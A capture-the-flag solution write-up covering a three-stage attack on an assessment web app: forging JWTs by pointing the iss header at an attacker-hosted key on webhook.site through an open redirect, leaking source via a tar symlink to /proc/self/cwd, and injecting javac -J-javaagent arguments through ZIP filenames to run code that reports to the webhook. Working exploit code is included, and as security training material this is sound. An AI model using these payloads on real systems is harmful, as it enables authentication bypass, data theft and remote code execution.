






# Solution

## Part 1

The goal for this part of the challenge is to bypass the authorization on the platform to access the URL `/admin`. Directly visiting `/admin` gets you redirected to the main page, so we need to find a way how to appear being the admin.

First let's create an account and try logging in. When we log in we get given an **JWT access token** which is used in the Authorization Bearer header for our requests. Putting this token into [jwt.io](https://jwt.io/), we can see that the JWT token is signed using the RS256 algorithm and has an **iss header**.



The **iss (Issuer) header** is sometimes used to link to the location of the public key for validating a JWT token. We can verify that the public key is located at `/api/auth/pub-key`. However, if the web application is using the iss header for retrieving the public key then you can change the URL to a public key you generate and forge the session token.

To generate your forged JWT, run the following commands

```bash
openssl genrsa -out private.pem 4096
openssl rsa -in private.pem -pubout -outform PEM -out public.pem
```

For generating the JWT, using `pyjwt[crypto]`:

```python
import jwt

with open("./private.pem", 'r') as f:
    private_key = f.read()
        
jwt_token: str = jwt.encode(
    {"id": 1},
    private_key,
    headers={"iss": "https://webhook.site/a418960b-ca31-47f9-b5fd-8d3fd949fe31"},
    algorithm='RS256'
)

print(jwt_token)
```

However, just ISS header to an external URL gets rejected by the web application.



The only ISS headers are were the ISS header starts with `/api/auth/pub-key`. However, when you logout you visit the URL path `/api/auth/logout?redirect=/logout`. This API route has an **open redirect** vulnerability, so a URL path `/api/auth/pub-key/../logout?redirect=https://webhook.site/a418960b-ca31-47f9-b5fd-8d3fd949fe31/public.pem` would work!



Now to bypass the authorization, you just need to upload your public.pem somewhere on the internet (eg. Github), set your `user_id` claim to `1` (good guess for an admin user), change your `token` in your browser's local storage and become the admin user!



---

## Part 2

The next goal from the challenge description is to leak the API source code. The flag is located in a file called `flag.txt` in the API folder.

As an admin, you can view all of the units, assessments, submissions, create new assessments and enrol students to units. One of the most interesting features is when you upload .zip, .tar or .tar.gz files for assessments that specify uploading only archive files your uploads are automatically extracted. On Linux, when you extract `tar` archives using `python` (hinted that python was used in the challenge description) **symbolic links are preserved**. So you can create a tar archive with a symbolic link to any folder on the system and then download the contents!

The easiest method is to link to `/`, which is very messy. A more neat solution is to assume that the API's working directory is in the API source code folder, so you can link to `/proc/self/cwd` instead to link the API source code.

The following code will generate the payload (named `exploit.tar.gz`) that you can upload.

```python
import tarfile

with tarfile.open('exploit.tar.gz', 'w:gz') as tar:
    info = tarfile.TarInfo("submission")
    info.type = tarfile.SYMTYPE
    info.linkname = "/proc/self/cwd"
    tar.addfile(info)
```

When you upload this archive, it lists all of the files in the API folder. However, the developer was lazy and only used `<a>` tags to link to the download that **does not send the Authorization HTTP header**. So you have to manually add your `Authorization` header again to download the flag file.

---

## Part 3

The final goal is to get RCE on the machine. Firstly, we need to download the application source code and see if there are any potential RCE vulnerabilities.

In `utils/assessments.py`, it reveals there is a third assessment type called `java-underdevelopment` that requires students to upload ZIP files of **.java code that is compiled using `subprocess.run`**.

*Code snippet from `utils/assessments.py`*
```python
...

def check_java_is_valid(folder)->bool:
    class_files = list_files(folder, allowed_ext=".java")

    temp_output = os.path.join("/", "tmp", "java", os.urandom(8).hex())
    os.makedirs(temp_output, exist_ok=True)
    old_cwd = os.getcwd()
    os.chdir(folder)

    # Using subprocess.run prevents any command injection students could exploit
    logging.error(["/usr/bin/javac", "-d", temp_output]+class_files)
    try:
        returned_code = subprocess.run(["/usr/bin/javac", "-d", temp_output]+class_files)
    except:
        return False
    finally:
        os.chdir(old_cwd)
    
    return returned_code == 0
```

Since `javac` is directly called using `subprocess.run`, normal command injection would not work but **it is vulnerable to command line argument injection by using file names in the ZIP archive**. There are siginificant limitations though, the filename cannot have a space and it needs to end with `.java`.

Researching potential methods to leveraging the argument injection to code execution, `javac` has the `-J` flag that passes a flag directly to the JVM while compiling the code! One of the flags you can pass to the JVM is the **`javaagent`**, which changes the agent that intercepts applications running on the JVM! Therefore, we can change the **Java Agent** to the JVM that compiles code to a malicious `javaagent` that we upload in the ZIP archive!

The code in [build-javaagent](./build-javaagent/) will compile a malicious Java Agent that will execute `getfinalflag` and send the output to our webhook.

Putting it all together:

1. Create a new assessment with the type set to `java-underdevelopment`.
2. Create a ZIP archive with two files. One of the files is your compiled Java Agent, renamed with a `.java` extension so it is included when `subprocess.run` is executed. The second file is for triggering the argument injection vulnerability (eg. `-J-javaagent:exploit.java`). An example payload is shown in [rce-payload](./rce-payload/).
3. Upload the ZIP file and profit!



